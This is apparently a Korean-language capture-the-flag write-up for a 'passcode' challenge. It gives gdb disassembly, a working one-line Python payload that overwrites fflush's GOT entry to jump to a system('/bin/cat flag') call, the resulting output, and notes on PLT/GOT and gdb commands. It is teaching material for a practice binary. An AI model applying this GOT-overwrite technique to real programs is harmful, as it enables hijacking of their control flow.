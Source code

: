 ```
fflush@got 주소는 0x804a004 임을 알 수 있다.

```
0x080485de <+122>:	call   0x8048450 <puts@plt>
0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
0x080485ea <+134>:	call   0x8048460 <system@plt>
```
scanf 의 매개변수를 0x080485e3 줄에서 받아서 0x080485ea 에서 실행시키는 것을 볼 수 있다. 따라서 system함수의 시작 주소는 0x080485e3이다.

payload 는 다음과 같다.

`dummy(96) + &fflush@got + &system("/bin/cat flag")`

- dummy(96) + &fflush@got ==> name[100]

- &system(“/bin/cat flag”) ==> scanf(%d,passcode) 입력값. %d로 받고있어서 주소를 16진수가 아닌 10진수로 적어주어야 한다.

즉,

`(python -c 'print "C"*96+"\x04\xa0\x04\x08"+"134514147"' ; cat)|./passcode`

주소는 항상 8자리. 앞에 0이 빠져서 7자리 일 수 있지만 payload는 8자리로 넣어주면 된다.

__결과!__
```
passcode@pwnable:~$ (python -c 'print "C"*96+"\x04\xa0\x04\x08"+"134514147"';cat)|./passcode

Toddler's Secure Login System 1.0 beta.
enter you name : Welcome CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

## PLT & GOT
Link 방식에는 Static Link 방식과 Dynamic Link 방식이 있는데, Static Link 방식은 파일 생성시 라이브러리 내용을 포함한 실행 파일을 만들고, Dynamic Link 방식은 공유 라이브러리를 사용한다.

보통 컴파일링 할 때 gcc -o [파일] [파일.c] 이렇게 Dynamic Link 방식으로 컴파일링한다. 이 방식으로 프로그램이 만들어지면 함수를 호출 할 때 PLT를 참조하게 된다. PLT에서는 GOT로 점프를 하는데, GOT에 라이브러리에 존재하는 실제 함수의 주소가 쓰여있어서 이 함수를 호출하게 된다. 따라서 위에서 GOT의 주소를 구한것이라고 설명할 수 있다

근데 왜 다른 scanf 나 system 함수는 got 주소를 구하지않는건지 잘모르겠다..

## gdb 명령어 모음
- gdb 사용

`gdb [파일]`

- peda 사용하기

`(gdb) source/usr/share/peda/peda.py`

- 브레이크포인트 걸기

`(gdb) break *main+1`

- 브레이크포인트 확인하기

`(gdb) info breakpoints`

- 실행시키기

`(gdb) run`
```